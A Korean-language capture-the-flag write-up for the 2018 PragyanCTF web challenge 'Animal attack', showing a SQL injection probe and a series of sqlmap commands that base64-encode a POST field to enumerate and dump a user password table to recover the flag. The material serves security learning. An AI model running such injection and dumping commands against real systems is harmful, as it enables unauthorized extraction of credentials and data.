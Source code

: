 # [2018_PragyanCTF] \[Web] Animal attack

## Key words

- Blind SQL injection
- SQL map eval

## Solution

http://128.199.224.175:24000/

우선 문자열을 입력하여 검색을 해보면 사용자의 입력 값이 base64로 인코드되어 넘어가는 것을 확인할 수 있습니다.

또한 검색창에 `aaaaaaaaa' or 1=1#`을 넣어서 검색해보면 SQL injection이 가능하다는 것을 확인할 수 있었습니다.

union 문자열을 입력해본 결과 필터링 로직이 있었습니다. 따라서 sqlmap으로 블라인드 SQL 인젝을 시도했습니다.

SQL map을 돌려야 하는데 사용자 입력값이 base64로 인코딩되는게 문제였습니다. 하지만 sqlmap의 --eval 옵션으로 입력값을 커스터마이징시킬 수 있었습니다.

```
$ sqlmap -u "http://128.199.224.175:24000" --data "spy_name=a" --method POST --eval "import base64; spy_name = base64.b64encode(spy_name)" --databases

available databases [2]:
[*] information_schema
[*] spy_database
```

DB : spy_database

```
$ sqlmap -u "http://128.199.224.175:24000" --data "spy_name=a" --method POST --eval "import base64; spy_name = base64.b64encode(spy_name)" -D spy_database --tables

Database: spy_database
[2 tables]
+-------+
| spies |
| users |
+-------+
```

spies는 우리가 검색한 데이터를 담고 있는 테이블이었습니다. 따라서 table은 users를 골랐습니다.

```
$ sqlmap -u "http://128.199.224.175:24000" --data "spy_name=a" --method POST --eval "import base64; spy_name = base64.b64encode(spy_name)" -D spy_database -T users --columns 

Database: spy_database
Table: users
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int(5)      |
| password | varchar(40) |
| username | varchar(20) |
+----------+-------------+
```

컬럼 내용들

```
$ sqlmap -u "http://128.199.224.175:24000" --data "spy_name=a" --method POST --eval "import base64; spy_name = base64.b64encode(spy_name)" -D spy_database -T users -C password --dump

Database: spy_database
Table: users
[2 entries]
+--------------------------------------+
| password                             |
+--------------------------------------+
| pctf{L31's~@Ll_h4il-1h3-c4T_Qu33n.?} |
| test                                 |
+--------------------------------------+
```

password를 덤프 떠보면 플래그를 확인할 수 있습니다.
